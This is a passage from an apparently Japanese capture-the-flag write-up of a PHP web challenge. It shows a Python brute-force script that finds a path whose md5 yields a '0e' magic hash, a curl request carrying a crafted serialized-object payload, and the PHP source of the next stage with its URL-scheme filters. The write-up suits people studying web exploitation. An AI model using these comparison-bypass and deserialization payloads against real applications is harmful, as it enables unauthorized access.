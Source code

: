 これで `md5($_POST["fifth"])` の先頭 8 文字が `0e[0-9]+` になるような `$_POST["fifth"]` を探せばよいとわかりました。が、`$_POST["fifth"]` は `/\/[a-z\.\/]+$/i` とパスっぽい文字列でなければならず、かつ `file_exists($_POST["fifth"])` と実際に存在するファイルかディレクトリでなければならないという制約があります。

404 ページなどから問題サーバは Debian 系の Linux が使われていることがわかります。適当に似たような環境を立てて、存在しているファイルとディレクトリを総当たりしてみましょう。

```python
import glob
import hashlib
import re
import os.path

r = re.compile(r'^0e\d+$')
def check(p):
  h = hashlib.md5(p).hexdigest()[:8]
  return r.match(h) and os.path.exists(p)

for fn in glob.glob('/*/*'):
  for i in range(10):
    if check('/' * i + fn):
      print '/' * i + fn
```

```
$ python2 crack.py
////////sbin/zramctl
```

見つかりました。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}' -d 'fifth=////////sbin/zramctl'
Where would you find the components of the injection?
```

次に進むことができました。

### `$_GET["sixth"]` と `$_GET["sixth_second"]`
```php
<?php
if (filter_var($_GET["sixth"], FILTER_VALIDATE_URL)) {
  $url = parse_url($_GET["sixth"]);
  if (!preg_match("/tftp|sftp|http|https|file|dict/i", $url["scheme"]) && preg_match("/ricksecret/i", $url["path"]) && !preg_match("/\.\./i", $url["path"]) && !preg_match("/read|base|iconv|zlib/i", $url["path"])) {    
    echo file_get_contents($_GET["sixth"]) . "<br />";
    if (isset($_GET["sixth_second"])) {
      if (!preg_match("/sixth_second|sixth second/i", urldecode($_SERVER["QUERY_STRING"]))) {
        $dbms = new mysqli($host, $username, $_GET["sixth_second"], $db_name); // There's one row where id=1 and secret='r1cks'
        $dbms->set_charset("utf8");
        if (!$dbms->connect_error) {
          // …
        }
        else {
            die("I don't think that's my password Morty.");
        }
      }
      else {
        die("You touched something that you're not supposed to touch.");
      }
    }
    else {
      die("Where would you find the components of the injection?");
    }
```